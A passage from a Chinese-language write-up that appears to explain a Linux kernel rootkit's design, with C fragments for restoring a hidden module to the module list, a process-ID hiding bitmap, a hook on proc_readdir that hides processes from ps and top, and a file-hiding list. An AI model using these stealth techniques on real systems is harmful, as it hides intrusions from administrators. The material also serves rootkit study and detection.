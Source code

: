 **实现原理**: 通过操作内核模块链表(`THIS_MODULE->list`)和kobject结构，将当前模块从`/proc/modules`和`lsmod`的显示中移除，实现模块隐藏。

#### 3.1.2 模块显示恢复
```c
void show(void)
{
    if (!mod_hide)
        return;
    
    // 重新添加到模块列表
    list_add(&THIS_MODULE->list, mode_prev);
    
    // 切换隐藏状态
    mod_hide = !mod_hide;
}
```

### 3.2 进程隐藏技术

#### 3.2.1 进程隐藏位图管理
```c
// 最大进程ID数量
#define MAX_PIDS 0x9000

// 进程隐藏位图 - 每个位表示一个进程ID的隐藏状态
char pids[MAX_PIDS / 8 + 1];

static inline void pid_hide(long x)
{
    if (x >= MAX_PIDS)
        return;
    
    // 设置对应位为1（隐藏）
    pids[x / 8] |= 1 << (x % 8);
}
```

**实现原理**: 使用位图数据结构管理进程隐藏状态，每个位对应一个进程ID。通过位运算快速设置和查询进程的隐藏状态。

#### 3.2.2 proc目录读取拦截
```c
#if LINUX_VERSION_CODE > KERNEL_VERSION(3,10,0)
int __proc_readdir(struct file *file, struct dir_context *ctx);
#elif LINUX_VERSION_CODE >= KERNEL_VERSION(2, 6, 8)
int __proc_readdir(struct file *file, void *dirent, filldir_t filldir);
#endif
```

**实现原理**: 钩子`proc_readdir`函数，在进程目录读取时过滤被隐藏的进程ID，使其在`ps`、`top`等命令中不可见。

### 3.3 文件隐藏机制

#### 3.3.1 文件隐藏链表管理
```c
struct st_hide_file {
    char *name;                    // 要隐藏的文件名
    struct list_head list;         // 链表节点
};

// 隐藏文件链表头
LIST_HEAD(hide_files);
```

